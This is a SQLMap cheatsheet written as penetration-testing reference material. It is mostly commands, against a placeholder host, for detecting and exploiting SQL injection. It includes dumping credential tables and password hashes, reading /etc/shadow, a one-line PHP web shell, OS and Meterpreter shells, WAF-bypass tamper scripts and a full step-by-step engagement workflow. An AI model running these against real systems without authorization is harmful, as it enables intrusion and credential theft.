

# SQLMap — The Ultimate Cheatsheet

!!! abstract "What is SQLMap?"

    **SQLMap** is the industry-standard open-source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws. Written in Python, it comes with a powerful detection engine, numerous niche features for the ultimate penetration tester, and a broad range of switches including database fingerprinting, data extraction, accessing the underlying file system, and executing commands on the operating system.



---

## Installation

SQLMap is pre-installed on Kali Linux, Parrot OS, and most penetration testing distributions. For manual installation:

```bash title="Install via Git"
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
cd sqlmap-dev
python3 sqlmap.py --version
```

```bash title="Install via pip"
pip install sqlmap
```

```bash title="Install via Package Manager (Debian/Ubuntu)"
sudo apt install sqlmap
```

---

## Basic Usage

### Testing a URL Parameter

```bash title="Basic GET Parameter Test"
sqlmap -u "http://target.com/page?id=1"
```

SQLMap will automatically:

1. Test the `id` parameter for SQL injection
2. Fingerprint the back-end DBMS
3. Determine the injection technique(s)
4. Ask whether to continue exploitation

### Testing a POST Parameter

```bash title="POST Request Injection"
sqlmap -u "http://target.com/login" --data="username=admin&password=test"
```

### Specifying the Injectable Parameter

```bash title="Target a Specific Parameter"
# Only test the 'id' parameter:
sqlmap -u "http://target.com/page?id=1&cat=5" -p id

# Mark the injection point manually with *:
sqlmap -u "http://target.com/page?id=1*&cat=5"
```

---

## Request Configuration

### Custom Headers

```bash title="Custom User-Agent and Cookie"
sqlmap -u "http://target.com/page?id=1" \
  --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64)" \
  --cookie="PHPSESSID=abc123def456" \
  --referer="http://target.com/"
```

### Header Injection

```bash title="Inject into a Header"
# Test the X-Forwarded-For header for injection:
sqlmap -u "http://target.com/page" \
  --headers="X-Forwarded-For: 127.0.0.1*"
```

### Using a Request File (Burp Suite Export)

The most reliable method — save a request from Burp Suite as a text file:

```http title="request.txt (Burp Suite Export)"
POST /api/search HTTP/1.1
Host: target.com
Content-Type: application/json
Cookie: session=eyJhbGciOiJIUzI1NiJ9...
Content-Length: 27

{"query":"laptop","page":1}
```

```bash title="Load from Request File"
sqlmap -r request.txt
```

### Proxy Integration

```bash title="Route Through Burp Suite Proxy"
sqlmap -u "http://target.com/page?id=1" --proxy="http://127.0.0.1:8080"
```

```bash title="Route Through Tor"
sqlmap -u "http://target.com/page?id=1" --tor --tor-type=SOCKS5 --check-tor
```

---

## Detection & Fingerprinting

### Verbosity Levels

| Flag | Level | Description |
|---|---|---|
| `-v 0` | Silent | Only show critical errors |
| `-v 1` | Default | Show info and warning messages |
| `-v 2` | Debug | Show debug messages |
| `-v 3` | Payload | **Show injection payloads** |
| `-v 4` | HTTP | Show HTTP requests |
| `-v 5` | HTTP Headers | Show HTTP headers |
| `-v 6` | HTTP Body | Show full HTTP request/response body |

```bash title="Show Injection Payloads"
sqlmap -u "http://target.com/page?id=1" -v 3
```

### Risk and Level

The `--level` and `--risk` flags control the breadth and aggressiveness of testing:

| Flag | Range | Default | Description |
|---|---|---|---|
| `--level` | 1–5 | 1 | **Breadth of testing** — higher levels test more parameters (cookies at 2, headers at 3+) and use more payloads |
| `--risk` | 1–3 | 1 | **Aggressiveness** — higher risk includes `OR`-based tests (risk 2) and `UPDATE`-based tests (risk 3) |

```bash title="Maximum Detection"
sqlmap -u "http://target.com/page?id=1" --level=5 --risk=3
```

!!! warning "Risk Level 3 Caution"

    Risk level 3 includes `UPDATE`-based SQL injection tests, which can **modify data** in the database. Use with extreme caution in production environments.

### Specifying the DBMS

Skip fingerprinting and speed up testing by specifying the known database:

```bash title="Specify Database Type"
sqlmap -u "http://target.com/page?id=1" --dbms=mysql
sqlmap -u "http://target.com/page?id=1" --dbms=mssql
sqlmap -u "http://target.com/page?id=1" --dbms=postgresql
sqlmap -u "http://target.com/page?id=1" --dbms=oracle
sqlmap -u "http://target.com/page?id=1" --dbms=sqlite
```

### Specifying the Injection Technique

Use `--technique` to limit which techniques SQLMap tries:

| Letter | Technique |
|---|---|
| `B` | Boolean-based blind |
| `E` | Error-based |
| `U` | Union query-based |
| `S` | Stacked queries |
| `T` | Time-based blind |
| `Q` | Inline queries |

```bash title="Only Try Union and Error-Based"
sqlmap -u "http://target.com/page?id=1" --technique=UE
```

```bash title="Only Try Blind Techniques"
sqlmap -u "http://target.com/page?id=1" --technique=BT
```

---

## Enumeration

Once injection is confirmed, use these flags to extract data:

### Database Information

```bash title="Get DBMS Banner"
sqlmap -u "http://target.com/page?id=1" --banner
```

```bash title="Get Current User"
sqlmap -u "http://target.com/page?id=1" --current-user
```

```bash title="Get Current Database"
sqlmap -u "http://target.com/page?id=1" --current-db
```

```bash title="Check if User is DBA"
sqlmap -u "http://target.com/page?id=1" --is-dba
```

```bash title="List All Users"
sqlmap -u "http://target.com/page?id=1" --users
```

```bash title="Dump User Password Hashes"
sqlmap -u "http://target.com/page?id=1" --passwords
```

### Database Structure

```bash title="List All Databases"
sqlmap -u "http://target.com/page?id=1" --dbs
```

```bash title="List Tables in a Database"
sqlmap -u "http://target.com/page?id=1" -D targetdb --tables
```

```bash title="List Columns in a Table"
sqlmap -u "http://target.com/page?id=1" -D targetdb -T users --columns
```

### Data Extraction

```bash title="Dump Specific Columns"
sqlmap -u "http://target.com/page?id=1" \
  -D targetdb -T users -C username,password --dump
```

```bash title="Dump Entire Table"
sqlmap -u "http://target.com/page?id=1" \
  -D targetdb -T users --dump
```

```bash title="Dump Entire Database"
sqlmap -u "http://target.com/page?id=1" \
  -D targetdb --dump-all
```

```bash title="Dump Everything (ALL Databases)"
sqlmap -u "http://target.com/page?id=1" --dump-all
```

!!! tip "Selective Dumping"

    Use `--start` and `--stop` to limit the number of rows extracted:

    ```bash
    sqlmap -u "http://target.com/page?id=1" \
      -D targetdb -T users --dump --start=1 --stop=10
    ```

### Search Functions

```bash title="Search for a Table Name"
sqlmap -u "http://target.com/page?id=1" --search -T "user"
```

```bash title="Search for a Column Name"
sqlmap -u "http://target.com/page?id=1" --search -C "password"
```

---

## Executing SQL Queries

Run arbitrary SQL statements directly:

```bash title="Interactive SQL Shell"
sqlmap -u "http://target.com/page?id=1" --sql-shell
```

```bash title="Execute a Specific Query"
sqlmap -u "http://target.com/page?id=1" \
  --sql-query="SELECT GROUP_CONCAT(username,':',password) FROM users"
```

---

## File System Access

### Reading Files

```bash title="Read a File from the Server"
sqlmap -u "http://target.com/page?id=1" --file-read="/etc/passwd"
```

```bash title="Read a Windows File"
sqlmap -u "http://target.com/page?id=1" --file-read="C:\\inetpub\\wwwroot\\web.config"
```

### Writing Files

```bash title="Write a Web Shell to the Server"
sqlmap -u "http://target.com/page?id=1" \
  --file-write="./shell.php" \
  --file-dest="/var/www/html/shell.php"
```

Create a simple web shell first:

```php title="shell.php"
<?php system($_GET['cmd']); ?>
```

!!! danger "File Write Requirements"

    - Database user must have `FILE` privilege
    - MySQL: `secure_file_priv` must allow the target path
    - MSSQL: `BULK INSERT` permissions required
    - The web root path must be writable

---

## Operating System Access

### OS Command Execution

```bash title="Get an OS Shell"
sqlmap -u "http://target.com/page?id=1" --os-shell
```

```bash title="Execute a Specific Command"
sqlmap -u "http://target.com/page?id=1" --os-cmd="whoami"
```

### How --os-shell Works

SQLMap uses different techniques per DBMS:

| DBMS | Technique |
|---|---|
| **MySQL** | Writes a PHP/ASP web shell via `INTO OUTFILE`, or uses UDF `sys_exec()` |
| **MSSQL** | Enables and uses `xp_cmdshell` |
| **PostgreSQL** | Uses `COPY ... FROM PROGRAM` or PL/Python |

### Getting a Reverse Shell

```bash title="SQLMap + Meterpreter Shell"
sqlmap -u "http://target.com/page?id=1" \
  --os-pwn \
  --msf-path=/usr/share/metasploit-framework
```

### Windows Registry Access (MSSQL)

```bash title="Read a Registry Key"
sqlmap -u "http://target.com/page?id=1" \
  --reg-read \
  --reg-key="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion" \
  --reg-value="ProductName"
```

---

## Tamper Scripts

Tamper scripts modify the injection payloads to evade WAFs and IDS/IPS:

```bash title="Using a Single Tamper Script"
sqlmap -u "http://target.com/page?id=1" --tamper=space2comment
```

```bash title="Chaining Multiple Tamper Scripts"
sqlmap -u "http://target.com/page?id=1" \
  --tamper=space2comment,between,randomcase
```

### Essential Tamper Scripts

| Script | Description | Useful Against |
|---|---|---|
| `space2comment` | Replaces spaces with `/* */` | Generic WAFs |
| `space2plus` | Replaces spaces with `+` | Generic WAFs |
| `space2randomblank` | Replaces spaces with random whitespace chars | Generic WAFs |
| `between` | Replaces `>` with `NOT BETWEEN 0 AND` | Generic WAFs |
| `randomcase` | Randomizes keyword casing (`sElEcT`) | Case-sensitive WAFs |
| `charencode` | URL-encodes all characters | Basic WAFs |
| `chardoubleencode` | Double URL-encodes all characters | Advanced WAFs |
| `equaltolike` | Replaces `=` with `LIKE` | `=` filtering |
| `greatest` | Replaces `>` with `GREATEST` | `>` filtering |
| `apostrophenullencode` | Replaces `'` with unicode null+`'` | Quote filtering |
| `halfversionedmorekeywords` | Adds MySQL versioned comment before keywords | MySQL WAFs |
| `modsecurityversioned` | Wraps query with MySQL versioned comment | ModSecurity |
| `modsecurityzeroversioned` | Same with zero-version comment | ModSecurity |
| `percentage` | Adds `%` before each character | ASP/IIS WAFs |
| `sp_password` | Appends `sp_password` to hide from MSSQL logs | MSSQL logging |

### List All Available Tamper Scripts

```bash title="List All Tampers"
sqlmap --list-tampers
```

### WAF-Specific Tamper Combinations

```bash title="Bypass ModSecurity"
sqlmap -u "http://target.com/page?id=1" \
  --tamper=modsecurityversioned,space2comment,between
```

```bash title="Bypass CloudFlare"
sqlmap -u "http://target.com/page?id=1" \
  --tamper=charencode,space2comment,randomcase
```

```bash title="Bypass ASP/IIS WAF"
sqlmap -u "http://target.com/page?id=1" \
  --tamper=percentage,space2plus,charunicodeencode
```

---

## Performance Optimization

### Threading

```bash title="Use 10 Concurrent Threads"
sqlmap -u "http://target.com/page?id=1" --threads=10
```

!!! note "Maximum Threads"

    SQLMap supports up to 10 concurrent threads. Higher values help significantly with blind injection techniques.

### Prediction & Optimization

```bash title="Predict Common Output Values"
sqlmap -u "http://target.com/page?id=1" --predict-output
```

```bash title="Optimize for Speed"
sqlmap -u "http://target.com/page?id=1" -o
# Equivalent to: --predict-output --keep-alive --null-connection --threads=3
```

### Timeout Configuration

```bash title="Custom Timeouts"
sqlmap -u "http://target.com/page?id=1" \
  --timeout=30 \
  --retries=5 \
  --time-sec=10   # Seconds for time-based blind delay (default: 5)
```

---

## Handling Authentication

### HTTP Basic/Digest/NTLM Auth

```bash title="HTTP Authentication"
sqlmap -u "http://target.com/page?id=1" --auth-type=basic --auth-cred="user:pass"
sqlmap -u "http://target.com/page?id=1" --auth-type=digest --auth-cred="user:pass"
sqlmap -u "http://target.com/page?id=1" --auth-type=ntlm --auth-cred="domain\\user:pass"
```

### Cookie-Based Authentication

```bash title="Session Cookie"
sqlmap -u "http://target.com/page?id=1" \
  --cookie="PHPSESSID=abc123; token=xyz789"
```

### CSRF Token Handling

```bash title="Automatic CSRF Token Extraction"
sqlmap -u "http://target.com/page?id=1" \
  --csrf-token="csrf_token" \
  --csrf-url="http://target.com/form"
```

### Using Authenticated Burp Requests

The most reliable approach for complex auth flows:

```bash title="Burp Export with Full Auth Context"
# 1. Authenticate in Burp
# 2. Right-click the vulnerable request → "Copy to file"
# 3. Use the saved request:
sqlmap -r authenticated_request.txt
```

---

## Batch Mode & Automation

### Non-Interactive Mode

```bash title="Auto-Answer All Prompts"
sqlmap -u "http://target.com/page?id=1" --batch
```

### Custom Answers

```bash title="Custom Prompt Answers"
sqlmap -u "http://target.com/page?id=1" --answers="follow=Y,quit=N"
```

### Output Directory

```bash title="Save Results to Custom Directory"
sqlmap -u "http://target.com/page?id=1" --output-dir="/tmp/sqlmap-results/"
```

### Scan Multiple URLs

```bash title="Bulk Scan from File"
# urls.txt contains one URL per line:
sqlmap -m urls.txt --batch
```

### Crawl and Scan

```bash title="Crawl the Website and Test"
sqlmap -u "http://target.com/" --crawl=3 --batch
```

### Parse Burp/WebScarab Logs

```bash title="Import Burp Suite Log"
sqlmap -l burp_proxy_log.txt --batch --scope=".*target\.com.*"
```

---

## Complete Engagement Workflow

Here is the recommended workflow for a SQL injection engagement:

```bash title="Step 1: Detection with Verbosity"
sqlmap -r request.txt -v 3 --batch
```

```bash title="Step 2: Fingerprint the DBMS"
sqlmap -r request.txt --banner --current-user --current-db --is-dba --batch
```

```bash title="Step 3: Enumerate Databases"
sqlmap -r request.txt --dbs --batch
```

```bash title="Step 4: Enumerate Tables"
sqlmap -r request.txt -D targetdb --tables --batch
```

```bash title="Step 5: Enumerate Columns"
sqlmap -r request.txt -D targetdb -T users --columns --batch
```

```bash title="Step 6: Dump Credentials"
sqlmap -r request.txt -D targetdb -T users -C username,password --dump --batch
```

```bash title="Step 7: Attempt OS Shell (if DBA)"
sqlmap -r request.txt --os-shell --batch
```

```bash title="Step 8: Read Sensitive Files"
sqlmap -r request.txt --file-read="/etc/shadow" --batch
```

---

## Quick Reference — Essential Flags

| Flag | Description |
|---|---|
| `-u URL` | Target URL with query parameters |
| `-r FILE` | Load HTTP request from file |
| `-p PARAM` | Testable parameter(s) |
| `--data` | POST data string |
| `--cookie` | HTTP Cookie header |
| `--headers` | Extra headers (newline separated) |
| `--proxy` | Use a proxy |
| `--dbms` | Force DBMS type |
| `--technique` | SQL injection techniques (BEUSTQ) |
| `--level` | Level of tests (1–5) |
| `--risk` | Risk of tests (1–3) |
| `-v` | Verbosity level (0–6) |
| `--batch` | Non-interactive mode |
| `--threads` | Max concurrent threads (1–10) |
| `--tamper` | Tamper script(s) |
| `--dbs` | Enumerate databases |
| `--tables` | Enumerate tables |
| `--columns` | Enumerate columns |
| `--dump` | Dump table entries |
| `--dump-all` | Dump everything |
| `--search` | Search for tables/columns |
| `--sql-shell` | Interactive SQL prompt |
| `--os-shell` | Interactive OS shell |
| `--os-cmd` | Execute an OS command |
| `--os-pwn` | Meterpreter/VNC shell |
| `--file-read` | Read a file from the server |
| `--file-write` | Local file to upload |
| `--file-dest` | Remote path for uploaded file |
| `--passwords` | Dump DBMS user password hashes |
| `--is-dba` | Check if user is DBA |
| `--current-user` | Get current DBMS user |
| `--current-db` | Get current database |
| `--banner` | Get DBMS banner |
| `--flush-session` | Clear session cache |
| `--fresh-queries` | Ignore cached query results |
| `--wizard` | Interactive wizard for beginners |

---

## References

- [SQLMap Official Documentation](https://sqlmap.org/)
- [SQLMap GitHub Repository](https://github.com/sqlmapproject/sqlmap)
- [SQLMap Wiki — Usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage)
- [SQLMap Tamper Scripts](https://github.com/sqlmapproject/sqlmap/tree/master/tamper)
- [HackTricks — SQLMap](https://book.hacktricks.wiki/en/pentesting-web/sql-injection/sqlmap.html)
